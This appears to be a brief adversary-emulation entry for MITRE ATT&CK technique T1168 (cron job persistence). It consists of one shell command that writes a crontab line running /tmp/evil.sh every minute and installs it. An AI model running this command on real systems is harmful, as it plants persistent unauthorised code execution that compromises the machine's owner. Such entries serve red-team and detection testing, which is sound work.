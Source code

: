 # Cron Job

## MITRE ATT&CK Technique: [T1168](https://attack.mitre.org/wiki/Technique/T1168)

## Command
    echo "* * * * * /tmp/evil.sh" > /tmp/persistevil && crontab /tmp/persistevil
